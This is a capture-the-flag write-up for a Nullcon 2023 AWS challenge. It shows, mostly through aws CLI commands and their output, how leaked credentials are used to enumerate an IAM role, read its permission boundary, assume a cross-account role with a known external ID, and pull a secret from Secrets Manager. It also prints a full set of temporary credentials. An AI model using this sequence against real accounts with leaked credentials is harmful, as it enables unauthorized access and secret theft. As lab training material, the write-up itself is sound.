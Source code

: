 The goal of this challenge is to read the flag from AWS Secret Manager. The
ARN is known (arn:aws:secretsmanager:eu-central-1:562778112707:secret:secret-
flag-Educated-Assumption) and we got leaked AWS credential (access key ID,
secret access key, and session token). We could configure the local aws cli to
use the credential.

First, we want to know the associated identity of the credential.

```  
aws sts get-caller-identity  
```

```  
{  
   "UserId": "AROA22D7J5LEAHRVBGHEB:expose-credentials",  
   "Account": "743296330440",  
   "Arn": "arn:aws:sts::743296330440:assumed-role/role_for-lambda-to-assume-
role/expose-credentials"  
}  
```

The identity is AWS IAM role with name role_for-lambda-to-assume-role in the
account 743296330440. We need to find a way to use this role to read the
target secret ARN in the target account (562778112707).

It happened that this role has permission to call iam get-role to retrieve the
role’s information.

```  
aws iam get-role  
```

```  
{  
   "Role": {  
       "Path": "/",  
       "RoleName": "role_for-lambda-to-assume-role",  
       "RoleId": "AROA22D7J5LEAHRVBGHEB",  
       "Arn": "arn:aws:iam::743296330440:role/role_for-lambda-to-assume-role",  
       "CreateDate": "2023-08-17T18:06:08+00:00",  
       "AssumeRolePolicyDocument": {  
           "Version": "2012-10-17",  
           "Statement": [  
               {  
                   "Effect": "Allow",  
                   "Principal": {  
                       "Service": "lambda.amazonaws.com"  
                   },  
                   "Action": "sts:AssumeRole"  
               }  
           ]  
       },  
       "Description": "allows lambda to assume role",  
       "MaxSessionDuration": 3600,  
       "PermissionsBoundary": {  
           "PermissionsBoundaryType": "Policy",  
           "PermissionsBoundaryArn": "arn:aws:iam::743296330440:policy/permission-boundary_restrict-assumptions"  
       },  
       "Tags": [  
           {  
               "Key": "event",  
               "Value": "2023-nullcon-goa"  
           }  
       ],  
       "RoleLastUsed": {  
           "LastUsedDate": "2023-08-20T15:51:52+00:00",  
           "Region": "us-east-1"  
       }  
   }  
}  
```

There is a permission boundary defined with the policy with ARN
arn:aws:iam::743296330440:policy/permission-boundary_restrict-assumptions.
Fortunately, the role has permission to call iam get-policy and iam get-
policy-version to gather further information about the policy.

```  
aws iam get-policy --policy-arn arn:aws:iam::743296330440:policy/permission-
boundary_restrict-assumptions  
```

```  
{  
   "Policy": {  
       "PolicyName": "permission-boundary_restrict-assumptions",  
       "PolicyId": "ANPA22D7J5LEOFCVAS7BA",  
       "Arn": "arn:aws:iam::743296330440:policy/permission-boundary_restrict-assumptions",  
       "Path": "/",  
       "DefaultVersionId": "v9",  
       "AttachmentCount": 0,  
       "PermissionsBoundaryUsageCount": 1,  
       "IsAttachable": true,  
       "Description": "permission-boundary_restrict-assumptions",  
       "CreateDate": "2023-08-17T17:53:41+00:00",  
       "UpdateDate": "2023-08-17T20:54:35+00:00",  
       "Tags": [  
           {  
               "Key": "event",  
               "Value": "2023-nullcon-goa"  
           }  
       ]  
   }  
}  
```

Use the default version ID of the policy (v9).

```  
aws iam get-policy-version --policy-arn
arn:aws:iam::743296330440:policy/permission-boundary_restrict-assumptions
--version-id v9  
```

```  
{  
   "PolicyVersion": {  
       "Document": {  
           "Version": "2012-10-17",  
           "Statement": [  
               {  
                   "Sid": "VisualEditor1",  
                   "Effect": "Allow",  
                   "Action": [  
                       "iam:GetRole",  
                       "iam:ListAttachedRolePolicies"  
                   ],  
                   "Resource": [  
                       "arn:aws:iam::743296330440:role/role_for-lambda-to-assume-role"  
                   ]  
               },  
               {  
                   "Sid": "VisualEditor3",  
                   "Effect": "Allow",  
                   "Action": [  
                       "iam:GetPolicyVersion",  
                       "iam:GetPolicy",  
                       "iam:GetRolePolicy"  
                   ],  
                   "Resource": [  
                       "arn:aws:iam::743296330440:policy/permission-boundary_restrict-assumptions",  
                       "arn:aws:iam::743296330440:policy/policy_role-lambda-sts-assume-all"  
                   ]  
               },  
               {  
                   "Sid": "VisualEditor2",  
                   "Effect": "Allow",  
                   "Action": "sts:AssumeRole",  
                   "Resource": "arn:aws:iam::*:role/role_to_secretsmanager_read_flag",  
                   "Condition": {  
                       "StringEquals": {  
                           "sts:ExternalId": "nullcon-external-id"  
                       }  
                   }  
               }  
           ]  
       },  
       "VersionId": "v9",  
       "IsDefaultVersion": true,  
       "CreateDate": "2023-08-17T20:54:35+00:00"  
   }  
}  
```

The policy allows current role to call sts assume-role to another role
(arn:aws:iam::*:role/role_to_secretsmanager_read_flag) as long as the sts API
call provides the valid external ID as parameter. From the challenge’s
description, we know that our target account is 562778112707 so we can try to
assume role as
arn:aws:iam::562778112707:role/role_to_secretsmanager_read_flag.

```  
aws sts assume-role --role-arn
arn:aws:iam::562778112707:role/role_to_secretsmanager_read_flag --external-id
nullcon-external-id --role-session-name test  
```

```  
{  
   "Credentials": {  
       "AccessKeyId": "ASIAYGCBQQLB6LECED5N",  
       "SecretAccessKey": "JcL1e4tEjbSrbiQDAqCQg3lFr3L6lzXRTXA23/ke",  
       "SessionToken": "FwoGZXIvYXdzEBoaDL/nBHvMklfD6eE0ICKoAevUg4uroF6nx2PDvy4maodQ5eglFirxa01TQC5uMeMB1ZtTj6ySBk5Zlc9glSjTC8+lbn17A/jAKwMqa1EIIRVPVnEYwvuNKGBAXLc94z/bdolIMyb2WdSDDmwDN5IieS4GbrGQx2SbdYO/yvcekvheIcPXKMX/Up/pe+BWU739fjrQ9r4OvtzWMwrMw2kh7pWAPAxmD6BTEuETStMdoZy2fHrzL+nvBCiwiYmnBjIt/lqEc+Qx4CHoyKcv9HtWX1UWk3E4epGdFBLFbIQz6MoEiUq7teutmirokfvT",  
       "Expiration": "2023-08-20T17:52:00+00:00"  
   },  
   "AssumedRoleUser": {  
       "AssumedRoleId": "AROAYGCBQQLB5IVBMQ3KF:test",  
       "Arn": "arn:aws:sts::562778112707:assumed-role/role_to_secretsmanager_read_flag/test"  
   }  
}  
```

We got temporary credential for the desired role. After reconfigure the local
aws cli to use the credential, we can try to do enumeration further to know
the permissions of this role but we can try to get the value of target secret
storage directly from the desired AWS Secret Manager ARN. From the target ARN,
we also know that the region is eu-central-1.

```  
aws secretsmanager get-secret-value --secret-id arn:aws:secretsmanager:eu-
central-1:562778112707:secret:secret-flag-Educated-Assumption --region eu-
central-1  
```

```  
{  
   "ARN": "arn:aws:secretsmanager:eu-central-1:562778112707:secret:secret-
flag-Educated-Assumption-CMnnPK",  
   "Name": "secret-flag-Educated-Assumption",  
   "VersionId": "bffd4205-4fff-4b62-bc95-513d8ad4313d",  
   "SecretString": "{\"flag-Eductaed-Assumption\":\"ENO{uR-boundry_m@de-
me#Assume}\"}",  
   "VersionStages": [  
       "AWSCURRENT"  
   ],  
   "CreatedDate": "2023-08-17T22:36:06.243000+08:00"  
}  
```

Original writeup (https://hackmd.io/@vidner/nullcon-sksd#Educated-Assumption-
Cloudish).